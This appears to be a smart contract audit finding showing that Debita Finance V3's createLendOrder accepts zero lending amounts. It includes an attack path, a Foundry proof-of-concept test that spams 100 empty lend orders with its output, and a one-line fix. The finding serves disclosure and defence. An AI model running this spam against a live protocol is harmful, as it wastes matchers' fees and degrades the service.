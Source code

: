 Innocent Glass Rabbit

Medium

# Malicious user can create multiple lend orders with zero lending amounts, disrupting protocol efficiency

### Summary

The lack of validation for zero lending amounts in the `createLendOrder` function will disrupt the protocol's efficiency, as empty lend orders will be created. This will negatively impact the order-matching process, causing unnecessary computational overhead for the protocol. Additionally, the connector (whether a bot or another participant) may lose fees while attempting to match these empty lend orders.

### Root Cause

In [`DLOFactory::createLendOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L124), the `_startedLendingAmount` parameter is not validated for a non-zero value before proceeding with the transaction. This allows empty lend orders to be created, which can bloat the system and degrade its performance when attempting to match orders.



### Internal pre-conditions

1. An attacker or user needs to call `createLendOrder()` with `_startedLendingAmount` set to 0.
2. The lendOfferProxy contract will still be deployed despite the zero value, leading to an empty order.
3. The protocol processes these transactions without reverting, storing the empty orders in its active list.

### External pre-conditions

1. The chain allows transactions with zero-value transfers (this is common for chains like Sonic, Base, Arbitrum, and OP).
2. The gas price must be low enough for the attack to be feasible without excessive cost.

### Attack Path

1. The attacker calls `createLendOrder()` with `_startedLendingAmount` set to `0` multiple times.
2. `SafeERC20.safeTransferFrom()` is invoked, but no funds are transferred due to the zero value.
3. The empty lend order is created and stored in the system, consuming unnecessary resources.
4. The connector (bot or user) attempts to match offers, wasting resources and possibly losing fees by matching empty lend orders.

### Impact

The protocol’s efficiency is disrupted as empty lend orders clog the order-matching process, leading to wasted gas fees. The connector, which is responsible for matching orders, will lose fees trying to match these empty offers, resulting in financial losses and operational inefficiencies. The attacker does not directly profit but burdens the protocol with inefficiencies.

### PoC

Add this test to `test/local/Loan/MultiplePrinciples.t.sol`
```solidity
function testCreateZeroAmountLendOrder() public {
        for (uint i = 0; i < 100; i++) {
            vm.startPrank(secondLender);
            wETHContract.approve(address(DLOFactoryContract), 5e18);
            uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
            ratioLenders[0] = 4e17;

            DLOFactoryContract.createLendOrder(
                false,
                allDynamicData.getDynamicBoolArray(1),
                false,
                allDynamicData.getDynamicUintArray(1),
                1000,
                9640000,
                86400,
                allDynamicData.getDynamicAddressArray(1),
                wETH,
                allDynamicData.getDynamicAddressArray(1),
                ratioLenders,
                address(0x0), 
                0 // here is `the _startedLendingAmount = 0`
            );

            console.log(
                "order",
                i,
                "has adress : ",
                DLOFactoryContract.allActiveLendOrders(i)
            );
            vm.stopPrank();
        }
    }
```

The result is this 

```shell
$ forge test --mt testCreateZeroAmountLendOrder -v

Ran 1 test for test/local/Loan/MultiplePrinciples.t.sol:testMultiplePrinciples
[PASS] testCreateZeroAmountLendOrder() (gas: 53614692)
Logs:
  order 0 has adress :  0x45C92C2Cd0dF7B2d705EF12CfF77Cb0Bc557Ed22
  order 1 has adress :  0x9914ff9347266f1949C557B717936436402fc636
  order 2 has adress :  0x6F67DD53F065131901fC8B45f183aD4977F75161
  .
  .
  .
  order 97 has adress :  0x239a0F5a33795983B38794D71F2BF3e237c52Fe8
  order 98 has adress :  0x1111539E7098e88AC6fac5683E9860495991D47e
  order 99 has adress :  0x587Fa1b6C0c1389Ea2929aB2270F8D616C0d5916
``` 

### Mitigation

The mitigation for this issue involves implementing a validation check in the [ `createLendOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L124)  function to ensure that the `_startedLendingAmount` is greater than `zero `before processing the transaction.

```diff 
+ require(_startedLendingAmount > 0, "Lending amount must be greater than zero");
```
